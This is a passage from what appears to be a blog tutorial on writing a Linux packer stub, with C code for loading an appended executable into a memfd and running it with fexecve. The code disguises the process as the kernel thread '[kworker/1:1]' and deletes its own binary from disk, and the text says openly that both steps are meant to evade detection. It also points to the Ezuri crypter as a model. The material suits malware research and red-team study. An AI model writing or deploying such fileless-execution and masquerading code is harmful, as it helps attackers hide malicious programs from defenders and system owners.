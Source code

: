 With this information, we're now able to parse out the compressed executable we've appended to the binary, and get it ready for in-memory execution. This is also a good time to incorporate any type of decryption, such as done in Ezuri with AES, but we'll leave that TODO for a future revision.

```c
// read packed executable from file offset
char data[size];
lseek(fd, 0, SEEK_SET);
lseek(fd, offset, SEEK_SET);
pread(fd, (void*) data, size, offset);
close(fd);
```

As per manpage specifications, `memfd_create` requires an identifier for the anonymous file that's to be loaded, which will appear under `/proc/self/fd/` , so we'll use play sneaky and name our eventual process as an arbitrary kernel worker thread to avoid detection:

```c
#define TEMPFILE "[kworker/1:1]"

/* safely write buffer to a given input file descriptor */
static void write_fd(int fd, const char *str, size_t len)
{
    size_t cnt = 0;
    do {
        ssize_t result = write(fd, str + cnt, MIN(len - cnt, 0x7ffff000));
        if (result == -1) 
            die(-1, "writing to memfd failed\n");
        cnt += result;
    } while (cnt != len);
}

...

// create anonymous file mocking a kernel worker thread
fd = memfd_create(TEMPFILE, 0);
if (fd == -1)
    die(fd, "cannot create in-memory fd for code");

// get rid of ourselves on disk for more sneaky evasion
if (remove(argv[0]) != 0)
    die(fd, "cannot remove self");

// write ELF data to in memory fd and execute
write_fd(fd, data, size - 1);
{
    argv[0] = TEMPFILE;
    fexecve(fd, (char * const *) argv, (char * const *) envp);
}
close(fd);
```

At this point, our stub program is done! We'll move on to building our packer, which handles provisioning the stub and actually performing the injection.
